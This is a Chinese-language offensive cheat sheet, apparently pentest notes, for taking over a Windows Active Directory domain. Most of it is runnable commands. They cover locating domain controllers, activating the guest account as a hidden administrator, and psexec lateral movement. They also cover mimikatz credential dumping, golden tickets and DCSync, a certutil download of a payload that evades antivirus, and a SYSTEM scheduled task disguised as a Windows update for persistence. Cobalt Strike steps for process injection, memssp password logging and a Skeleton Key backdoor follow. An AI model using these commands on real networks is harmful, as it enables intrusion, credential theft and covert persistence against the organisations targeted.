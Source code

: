 # Intranet

---

## window域介绍

域计算机登录到域时，身份验证是采用kerberos协议在域控制器上进行，登录到此计算机时通过SAM来进行NTLM验证

一般域成员可以登录到域中所有工作站，不包括域控制器，管理员在域中可以设置用户登录可以登录到哪些计算机



## 流程

目的：拿到了域成员的控制权，通过域信息、登录IP次数出现最多的，定位域控、从其他的域计算机中抓取域管理员密码，然后拿下域控

1.找域控：

```
dsquery server                          #等等域控的主机名，如WIN-KMZ8MFWF5L8

net group "domain controllers" /domain  #查询域管账号

net view                                #查看视图，备注servidor master ad 域控、dns域控可能性很大

ping 主机名                             #ping域控的主机名， 得到域控IP

net group "domain admins" /domain      #找域管理员

net user /domain    |net user 域用户 /domain    #找域所有成员

```

其他信息查看：

```
 net config workstation  #查询当前登录域  如pico.local
 net accounts /domain   #查询域密码策略
 net view /domain     #查看所有域
 net view /domain:域名称 查看域内用户
 net group "domain computers" /domain   #查看当前域的计算机列表
 wmic qfe          #查询补丁信息
 wmic os           #查看操作系统类型）
 net use            # 查看是否ipc连接
 net share          # 查看是否有共享
 net session         # 查看是否有连接本地的ipc主机
 setspn -q */* | findstr "MSSQL"  #setspn 通过spn扫描查看所有连接的主机和服务，筛选mssql
```

guest用户隐藏

```
net user  guest  /active:yes                      #激活guest用户

net localgroup  administrators  guest  /add       #将guest用户添加到

net user guest    密码                            #更改guest用户密码

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f                          #开启3389端口
```

2.因为整个内网很多台计算机，每个计算机的本地管理员的帐号和密码都是一样，除了域控（域控也可以试试），所以我们得到了本地管理员帐号密码的话可以直接使用登录其他计算机，并找出域管理员登录过的域计算机，就算注销掉也可以从内存中抓取密码hash

```
psexec \\IP -u administrator -p 密码 cmd  #获取IP的超级管理员的cmd

tasklist /v |find "域管理员名"
```

or

```
tasklist /s IP /u administrator /p 密码 /v |find "域用户名" #远程查看进程
```

批量操作：

```
psexec -accepteula @ip.txt -u administrator -p 密码 -c 1.bat

（ip.txt是ip ，1.bat是tasklist的指令）
```



3.找到域管理员登录过的IP的计算机进行登录，使用mimikatz抓取内存的密码

```
mimikatz log "privilege::debug" "lsadump::lsa /patch"  #pth攻击

mimikatz（管理员权限下运行）

kerberos::golden /user:域用户名 /domain:域名 /sid:   /krbtgt:密码hash    /ticket:test.kirbi

kerberos::ptt test.kirbi

在在另一个cmd中

klist   #查看缓存的票据

dir \\WIN-KMZ8MFWF5L8.pico.local\c$     #域控主机名.域名，使用票据传递进行查看
```

or

```
mimikatz
：：获取帮助
Privilege：：debug        提升权限
Sekurlsa：：logonpasswords 抓取密码
查看本地用户密码
```

or

```
dcsuync功能利用它可以从目录复制服务（DRS）的NTDS.DIT文件中检索密码哈希值。该项技术省去了直接使用域控制器进行身份验证的过程，因为它可以通过域管理员的权限从域的任何系统执行

lsadump::dcsync /domain:pentestlab.local /all /csv
```





4.如果dump不出域控密码，使用远程RPC请求，允许执行远程代码

```
魔波利用ms06-040  缓冲区溢出  针对netapi组件  

如果是域控是windows xp/2000/2003/2008等 可以是用ms08-067  针对netapi组件

wannacry利用ms17-010永恒之蓝攻击445传播病毒
```

可以在github上搜ms的扫描器

------------------------------------------------

## 内网穿透

[frp](https://p-t001.github.io/test_long/Penetration_test/test_soft/Intranet/Frp.html)



## dump超管密码

内网一般是windows系统

[mimakatz](https://p-t001.github.io/test_long/Penetration_test/test_soft/Intranet/mimakatz.html)



域信息收集

```
systeminfo   #看计算机信息、域、补丁
net time /domain  # 一般域控也做时间服务器，如果有代表在域里
net config workstation #工作域为域名，如果为WORKGROUP表示未域环境，登陆域表示当前用户是域用户（域名）还是本地用户（本地是计算机名）
net group “domain admins” /domain #定位域管理员名
域管：域名/域管理员名

net group “domain controllers” /domain  #在与里面能看到域控名$
ping 域控名  #能定位IP

net use \\域控名
net view \\域控名  # 查看域控共享的设备
dir \\域控名\xxxx  # 查看域控共享的文件
```



进行下载(下载并重名名成nice.exe，&是为了绕过杀软)

```
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe
加上delete就不会产生缓存文件
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe delete
查看缓存文件：certutil -urlcache *
删除缓存文件：certutil -urlcache * delete
```

定时任务使windows服务器上线,apt持久化

```
schtasks /create /RL HIGHEST /F /tn "Windows Server Update" /tr "c:\windows\Temp\xxx.exe" /sc DAILY /mo 1 /ST 09:00 /RU SYSTEM
```

使用cs查看进程,如果有域管使用的进程,,在cs中注入进程让域管上线

```
beacon> inject 进程号 x64 http-ip
```

域管状态下与域控简历IPC共享

```
net use \\IP # 简历IPC连接
dir \\IP\c$  # 列出c盘共享
```

cs中能使用端口扫描功能进行内网扫描

```
portscan 192.168.2.0-192.168.2.254 1-1024,3389 arp 1024
```

ssp记录登陆当前机器的所以账号密码

```
beacon> mimikatz privilege::debug
beacon> mimikatz misc::memssp
beacon> shell type C:\Windows\System32\mimilsa.log
有人登陆成功:
beacon> shell type C:\Windows\System32\mimilsa.log # 查看文件内容
```

Skeleton Key - 万能密码

```
beacon> mimikatz privilege::debug
beacon> mimikatz misc::skeleton
可以通过:  账号:域名\administrator 密码:mimikatz 连接IPC
beacon> shell net use \\xxxxx-PDM\c$ /user:"a-xxxxx\administrator" "mimikatz"
beacon> shell dir \\xxxxx-PDM\c$
```

nbtscan内网存活扫描,并显示IP，主机名(加入域会域名+主机名)，用户名称和MAC地址

- https://github.com/lifenjoiner/nbtscan/releases/tag/nbtscan-v1.5.2-2394b4

```
nbtscan -r x.x.x.x/24
```



来源:https://xz.aliyun.com/t/9816

